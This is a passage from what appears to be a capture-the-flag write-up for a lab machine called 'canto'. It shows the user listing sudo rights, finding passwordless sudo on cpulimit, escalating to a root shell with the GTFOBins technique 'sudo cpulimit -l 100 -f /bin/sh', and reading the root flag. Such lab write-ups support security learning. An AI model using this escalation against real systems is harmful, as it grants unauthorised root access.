 ```bash
sudo -l
```
which results in 

```bash
erik@canto:~$ sudo -l
Matching Defaults entries for erik on canto:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User erik may run the following commands on canto:
    (ALL : ALL) NOPASSWD: /usr/bin/cpulimit
```

Nice, we can run cpulimit. 
Let's see if we can exploit the sudo capabilities. I'm using [gtfobins](https://gtfobins.github.io/#) for this.

![Alt text](Screenshot_20240827_154215.png)


Using the sudo option to escalate to root via sudo

```bash
erik@canto:~$ sudo cpulimit -l 100 -f /bin/sh
Process 1223 detected
# whoami
root
#   
```


**We have Root!!!**

# Getting the root flag

Now let's find the root flat. Most probably in a root-only dir like /root

```bash
# cd /root
# ls
root.txt  snap
# cat root.txt
SPOILER_PROTECTION
# 
```

**We have the root flag**

That's it, we're done! 

# END